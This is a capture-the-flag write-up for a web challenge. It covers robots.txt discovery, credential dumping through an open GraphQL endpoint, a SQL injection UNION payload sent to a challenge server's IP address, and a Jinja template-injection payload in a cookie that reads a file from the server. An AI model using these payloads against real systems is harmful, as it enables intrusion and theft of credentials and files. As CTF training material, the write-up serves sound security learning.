


# Maze
We were given the challenge text:
```
maze corparate just started a new trading platform, let's hope its secure because I got all my funds over there

EU instance

US instance

author: pop_eax
```

If you went to the website, you were greeted with a simple login screen, which didn't seem very exploitable. I then checked the robots.txt file, which had the contents `/sup3r_secr37_@p1`.

I went to the path, and was greeted with a GraphQL GUI. After letting the autofill fill in some relevant fields for me, I had the query:
```
query {
  allTraders {
    edges {
      node {
        username
        coins {
          edges {
            node {
              title
              password
            }
          }
        }
      }
    }
  }
}
```

Which gave me the result:

```
{
  "data": {
    "allTraders": {
      "edges": [
        {
          "node": {
            "username": "pop_eax",
            "coins": {
              "edges": [
                {
                  "node": {
                    "title": "XFT",
                    "password": "iigvj3xMVuSI9GzXhJJWNeI"
                  }
                }
              ]
            }
          }
        }
      ]
    }
  }
}
```

I tried logging in with the username `pop_eax` and the password, but it didn't work. I got quite stuck here, but after a while I tried using `XFT` as the username, and it worked. 



I clicked on one of the coins, and noticed that all the coins had the same URL, but with different GET query parameters, such as: `/trade?coin=xft`. I assumed that the backend loaded the info about the coin from a database, so I attempted an SQL injection. Similar to [graphed 2.0](../graphed_2) I listed the tables, the important one being `admin`. I then sent the payload `http://207.180.200.166:9000/trade?coin=%27%20%20UNION%20SELECT%20*%20FROM%20admin;%20--` (`' UNION SELECT * FROM admin; --`), and it gave me the password: `p0To3zTQuvFDzjhO9`.

I logged into the admin panel, but there was no flag, I was instead called a skid.



I looked a bit around in dev tools, and saw that the name `skid` was stored as a cookie. I changed it to something else, and when I refreshed the name was changed. Since the server processed the cookie, I tried template injection. When I changed the `name` cookie to `{{ 7*7 }}`, the server responded with `49`. I then searched for template injections that allowed me to read files, and I found one that worked: `{{ get_flashed_messages.__globals__.__builtins__.open("flag.txt").read() }}`. The response was `flag{u_35c@p3d_7h3_m@z3_5ucc3ssfu77y9933}`.